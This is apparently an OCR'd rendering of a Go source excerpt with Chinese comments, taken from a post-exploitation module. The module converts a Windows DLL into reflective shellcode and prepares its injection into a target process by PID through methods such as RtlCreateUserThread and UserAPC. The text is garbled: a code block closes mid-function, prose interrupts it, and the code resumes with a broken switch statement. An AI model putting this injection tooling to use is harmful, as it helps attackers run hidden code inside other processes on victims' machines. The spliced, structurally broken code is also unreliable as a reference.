 ```
			return nil, fmt.Errorf("there was an error converting the PID to an integer:\r\n%s", errPid.Error())
		}
	}

	// 如果方法不是 "self" 并且 PID 为空，则返回错误
	if strings.ToLower(options["method"]) != "self" && options["pid"] == "" {
		return nil, fmt.Errorf("a valid PID must be provided for any method except self")
	}

	// 验证方法是否是有效类型
	var method string
	switch strings.ToLower(options["method"]) {
	case "self":
		method = "self"
	case "remote":
		// 在这里添加其他方法的处理逻辑
		// ...
	}
```
在这段代码中，我们对PID进行了整数转换，验证了方法的有效性，并根据不同的方法进行了不同的处理。
	// 设置默认执行方法为远程
	method = "remote"
	// 根据不同的执行方法设置对应的方法名称
	case "rtlcreateuserthread":
		method = "RtlCreateUserThread"
	case "userapc":
		method = "UserAPC"
	// 如果执行方法不在预设范围内，则返回错误
	default:
		return nil, fmt.Errorf("invlaid shellcode execution method: %s", method)

	}
	// TODO add types as constant or list in shellcode.go

	// 将 DLL 转换为反射式 shellcode
	sc, errShellcode := dllToReflectiveShellcode(options["dll"], options["function"], clearHeader, options["args"])
	// 如果转换过程中出现错误，则返回错误信息
	if errShellcode != nil {
		return nil, errShellcode
	}
	// 将 shellcode 进行 base64 编码
	b64 := base64.StdEncoding.EncodeToString(sc)
	// 根据执行方法、base64 编码后的 shellcode 和进程 ID 获取命令
	command, errCommand := shellcode.GetJob(method, b64, options["pid"])
	// 如果获取命令过程中出现错误，则返回错误信息
	if errCommand != nil {
		return nil, fmt.Errorf("there was an error getting the shellcode job:\r\n%s", errCommand.Error())
	}
// dllToReflectiveShellcode将现有的Windows DLL转换为包含反射加载器的位置无关shellcode，以在内存中加载和执行shellcode。
// 该函数的代码改编自Leo Loobeek的工作，网址为：
// https://gist.githubusercontent.com/leoloobeek/c726719d25d7e7953d4121bd93dd2ed3/raw/05f20bae7aa6cd21e20a52034b9547a19e211c5e/ShellcodeRDI.go
// Leo Loobeek的工作基于Nick Landers（@monoxgas）在https://github.com/monoxgas/sRDI/上的sRDI项目
// Nick Landers的工作基于Dan Staples的工作，后者基于Stephen Fewer的工作
// Nick Landers关于位置无关代码（PIC）的工作基于Matthew Graeber的工作
// Matthew Graeber的工作基于Alan Turing的工作
// 最后，引用Lee Christensen的名字是为了好运和pwnage
// dllPath是要转换为反射shellcode的源DLL的文件路径，作为字符串
// functionName是在DllMain之后要调用的函数的名称（可选）
// clearHeader如果设置为true，将删除PE头部（可选）
// userDataStr用于定义应与注入的DLL一起调用的任何参数（可选）